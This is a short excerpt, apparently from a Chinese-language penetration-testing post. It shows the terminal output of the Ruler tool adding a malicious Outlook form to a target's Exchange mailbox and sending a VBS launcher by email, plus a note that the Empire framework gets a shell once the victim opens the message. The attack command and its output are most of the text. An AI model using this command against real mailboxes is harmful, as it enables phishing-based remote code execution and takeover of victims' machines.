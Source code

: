 ```
➜ /home/Fuckyou/Pentest/fish/ruler git:(master) ✗ >./ruler-linux64 --email ****@***.com form add --suffix nihao --body hello --subject test --input /tmp/launcher.vbs --send
Password: 
[+] Found cached Autodiscover record. Using this (use --nocache to force new lookup)
[+] Create Form Pointer Attachment
[+] Create Form Template Attachment
[+] Sending email.
[+] Email sent! Hopefully you will have a shell soon.
```
当目标点开我们的邮件时
我们Empire就收到shell了

